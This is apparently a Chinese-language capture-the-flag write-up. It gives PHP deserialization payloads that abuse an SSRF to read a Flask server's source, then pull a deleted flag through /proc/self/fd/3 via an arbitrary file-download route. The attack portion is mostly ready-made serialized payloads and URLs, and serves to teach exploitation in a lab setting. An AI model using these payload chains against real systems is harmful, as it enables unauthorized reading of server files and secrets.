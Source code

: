查看到114进程有一个命令，`python3 /app/server.py`，读取内容`/app/server.py`

```
|O:5:\"Happy\":1:{s:5:\"happy\";O:5:\"_New_\":3:{s:5:\"daniu\";O:5:\"_New_\":3:{s:5:\"daniu\";O:4:\"Year\":1:{s:6:\"zodiac\";N;}s:5:\"robot\";s:6:\"zodiac\";s:8:\"notrobot\";s:14:\"/app/server.py\";}s:5:\"robot\";N;s:8:\"notrobot\";N;}}
```

获取源码：

```python
from flask import *
import os

app = Flask(__name__)
flag=open('/flag','r')
#flag我删了
os.remove('/flag')

@app.route('/', methods=['GET', 'POST'])
def index():
	return "flag我删了，你们别找了"

@app.route('/download/', methods=['GET', 'POST'])
def download_file():
    return send_file(request.args['filename'])


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000, debug=False)

```

`os.remove('/flag')`得知flag删除了，我们可以使用/proc/self/fd/{数字}，来获取删除的内容。

看到`/download/`中`send_file`可以获取本地服务器的内容。

所以可以构造

其中3是尝试出来的

```
shttp://127.0.0.1:5000/download/?filename=/proc/self/fd/3
```

payload

```
|O:5:\"Happy\":1:{s:5:\"happy\";O:5:\"_New_\":3:{s:5:\"daniu\";O:5:\"_New_\":3:{s:5:\"daniu\";O:4:\"Year\":1:{s:6:\"zodiac\";s:56:\"http://127.0.0.1:5000/download/?filename=/proc/self/fd/3\";}s:5:\"robot\";N;s:8:\"notrobot\";N;}s:5:\"robot\";N;s:8:\"notrobot\";N;}}
```

